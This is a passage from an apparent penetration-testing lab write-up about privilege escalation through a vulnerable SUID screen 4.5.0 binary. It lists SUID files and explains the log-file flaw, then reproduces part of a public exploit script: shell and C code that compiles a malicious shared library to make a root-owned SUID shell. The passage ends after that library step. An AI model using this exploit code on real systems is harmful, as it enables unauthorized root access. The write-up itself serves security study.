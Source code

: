     /usr/bin/ssh-agent
    /usr/bin/at
    /usr/bin/passwd
    /usr/bin/screen-4.5.0
    /usr/bin/chsh
    /usr/bin/wall
    /usr/bin/chfn
    /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
    /usr/lib/x86_64-linux-gnu/utempter/utempter
    /usr/lib/dbus-1.0/dbus-daemon-launch-helper
    /usr/lib/snapd/snap-confine
    /usr/lib/eject/dmcrypt-get-device
    /usr/lib/openssh/ssh-keysign
    /usr/lib/policykit-1/polkit-agent-helper-1
    

This jumped out to me because I ran into this during OSCP. There’s a
[vulnerability](https://lists.gnu.org/archive/html/screen-
devel/2017-01/msg00025.html) in SUID `screen` and it happens to be for that
version.

### Exploit Details

In Screen version 4.5.0, if the user specifies a log file, the program will
open and append to that log file. Because `screen` is typically set to SUID to
function, that means write as root.

There is an [exploit in ExploitDB](https://www.exploit-db.com/exploits/41154)
which consists of one long Bash script. I’ll break it into pieces to walk
through it (some mods would need to be made anyway).

Most of the exploit is creating and compiling two binary files. First, it
creates a shared object / library:

    
    
    cat << EOF > /tmp/libhax.c
    #include <stdio.h>
    #include <sys/types.h>
    #include <unistd.h>
    __attribute__ ((__constructor__))
    void dropshell(void){
        chown("/tmp/rootshell", 0, 0);
        chmod("/tmp/rootshell", 04755);
        unlink("/etc/ld.so.preload");
        printf("[+] done!\n");
    }
    EOF
    gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c
    rm -f /tmp/libhax.c
    

This library has a `dropshell` function that is marked as `__attribute__
((__constructor__))`. [This
means](https://gcc.gnu.org/onlinedocs/gcc-4.7.0/gcc/Function-
Attributes.html#:~:text=The%20constructor%20attribute%20causes%20the,exit%20\(\)%20has%20been%20called)
it will run before execution enters main. It is very simple. It just changes
the owner of `/tmp/rootshell` to root:root, then changes the permissions to be
SUID, removes the file `/etc/ld.so.preload`, and prints a message. This code
is compiled into `/tmp/libhax.so`

